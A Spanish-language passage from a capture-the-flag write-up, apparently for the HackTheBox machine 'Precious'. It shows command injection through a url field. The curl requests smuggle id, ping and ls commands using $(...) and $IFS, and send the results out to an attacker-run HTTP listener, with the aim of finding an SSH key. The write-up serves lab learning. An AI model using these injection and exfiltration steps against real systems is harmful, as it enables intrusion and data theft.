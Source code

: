 Probemos si esta campo de url esta sanitizado correctamente intentemos jugar con el $(command) para ver si podemos incluir un comando en nuestra consulta

```bash
❯  curl -s 'http://precious.htb' -d 'url=http://10.10.14.110/$(id)'
```
Mandamos la peticion y nos llega la peticion con el output del comando 
```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.189 - - [09/Feb/2023 15:58:19] code 404, message File not found
10.10.11.189 - - [09/Feb/2023 15:58:19] "GET /uid=1001(ruby)%20gid=1001(ruby)%20groups=1001(ruby) HTTP/1.1" 404 -
```
## Via no intencionada
Buenos Tenemos un Rce ya que el campo no se esta sanitizando correctamente probemos aver que podemos hacer, para hacernos un ping Tenemos que jugar Con una variable especial de bash la cual es $IFS que actua como si fuera un espacio

```bash
❯ curl -s http://precious.htb/ --data "url=http://10.10.1/\$(ping\$IFS-c\$IFS'1'\$IFS'10.10.14.110')"
```
mandamos la peticion y nos ponemos en escucha
```bash
❯ sudo tcpdump -i tun0 -n icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:16:31.870622 IP 10.10.11.189 > 10.10.14.110: ICMP echo request, id 9466, seq 1, length 64
16:16:31.870656 IP 10.10.14.110 > 10.10.11.189: ICMP echo reply, id 9466, seq 1, length 64
```
Vemos Que tenemos capacidad de ejecutar comandos con sus parametros jugando con la variable $IFS veamos si hay una id_rsa en el directorio de trabajo de ruby para poder autenticarnos sin proporcionar contraseña

```bash
❯ curl -s http://precious.htb/ --data "url=http://10.10.14.110/\$(ls\$IFS-la\$IFS'/home/ruby/')"
```
Montamos el servidor con python 
```bash 
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.189 - - [09/Feb/2023 16:36:37] code 404, message File not found
10.10.11.189 - - [09/Feb/2023 16:36:37] "GET /total%2032%0Adrwxr-xr-x%205%20ruby%20ruby%204096%20Feb%20%209%2016:23%20.%0Adrwxr-xr-x%204%20root%20root%204096%20Oct%2026%2008:28%20..%0Alrwxrwxrwx%201%20root%20root%20%20%20%209%20Oct%2026%2007:53%20.bash_history%20-%3E%20/dev/null%0A-rw-r--r--%201%20ruby%20ruby%20%20220%20Mar%2027%20%202022%20.bash_logout%0A-rw-r--r--%201%20ruby%20ruby%203526%20Mar%2027%20%202022%20.bashrc%0Adr-xr-xr-x%202%20root%20ruby%204096%20Oct%2026%2008:28%20.bundle%0Adrwxr-xr-x%203%20ruby%20ruby%204096%20Feb%20%209%2011:57%20.cache%0Adrwx------%203%20ruby%20ruby%204096%20Feb%20%209%2016:23%20.gnupg%0A-rw-r--r--%201%20ruby%20ruby%20%20807%20Mar%2027%20%202022%20.profile HTTP/1.1" 404 -
```
Vemos la respuesta urlencodiada decodifiquemosla para verla en su estado original
